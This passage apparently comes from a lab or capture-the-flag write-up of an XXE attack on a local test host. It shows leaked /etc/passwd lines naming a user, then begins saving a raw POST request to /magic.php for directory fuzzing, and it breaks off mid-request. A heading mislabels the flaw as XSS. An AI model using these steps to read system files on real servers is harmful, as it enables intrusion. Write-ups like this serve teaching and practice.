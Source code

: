 ```xml
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
david:x:1000:1000::/home/david:/bin/bash
 is already registered! </font> </p>
```

Let´s note thre is an user david: `david:x:1000:1000::/home/david:/bin/bash`

> [!security-issue] XSS Vunerability

## Explotation

### Step 1: Fuzzing directories

**Fuzz in `/home/david`**

*I. Storage the Request in RAW format in `xxe_rq.txt`:*

![](/assets/images/Pasted_image_20250217124738.png)

In console or using vim:

```bash
echo "POST /magic.php HTTP/1.1
Host: 192.168.0.102
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: text/plain;charset=UTF-8
Content-Length: 182
Origin: http://192.168.0.102
Connection: keep-alive
Referer: http://192.168.0.102/
Priority: u=0

```